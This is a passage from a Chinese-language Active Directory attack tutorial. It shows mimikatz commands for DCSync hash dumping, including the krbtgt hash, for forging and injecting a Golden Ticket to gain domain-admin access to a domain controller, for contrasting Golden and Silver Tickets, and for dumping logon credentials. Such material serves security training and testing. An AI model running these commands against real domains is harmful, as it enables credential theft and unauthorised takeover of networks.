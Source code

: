 ​    ![image.png](https://image.3001.net/images/20200304/15833021213249.png!small)

​    也可以制定获取某个用户的hash：

```
lsadump::dcsync /domain:test.com /user:test
```

​    ![image.png](https://image.3001.net/images/20200304/15833021346659.png!small)

​    **3.4.2黄金票据**

​     域中每个用户的Ticket都是由krbtgt的密码Hash来计算生成的，因此只要获取到了krbtgt用户的密码Hash，就可以随意伪造Ticket，进而使用Ticket登陆域控制器，使用krbtgt用户hash生成的票据被称为Golden Ticket，此类攻击方法被称为票据传递攻击。

​    首先获取krbtgt的用户hash:

```
lsadump::dcsync /domain:xx.com /user:krbtgt
```

​    ![image.png](https://image.3001.net/images/20200304/15833021454668.png!small)

​    在普通域成员上执行dir命令提示“拒绝访问”：

​    ![image.png](https://image.3001.net/images/20200304/15833021564184.png!small)

​    之后利用mimikatz生成域管权限的Golden Ticket，填入对应的域管理员账号、域名称、sid值，如下：   

```
kerberos::golden /admin:administrator /domain:ABC.COM /sid:S-1-5-21-3912242732-2617380311-62526969 /krbtgt:c7af5cfc450e645ed4c46daa78fe18da /ticket:test.kiribi
```

​    ![image.png](https://image.3001.net/images/20200304/15833021736848.png!small)

​    导入刚才生成的票据：

```
kerberos::ptt test.kiribi
```

​    导入成功后，可以获取域管权限：

```
Dir \\dc.abc.com\c$
```

​    ![image.png](https://image.3001.net/images/20200304/15833021917278.png!small)

​    **3.4.3白银票据**

​    黄金票据和白银票据的一些区别：

​    Golden Ticket：伪造TGT，可以获取任何Kerberos服务权限，且由krbtgt的hash加密，金票在使用的过程需要和域控通信

​    白银票据：伪造TGS，只能访问指定的服务，且由服务账号（通常为计算机账户）的Hash加密 ，银票在使用的过程不需要同域控通信

​    1.在域控上导出hash

```
privilege::debug
sekurlsa::logonpasswords
```
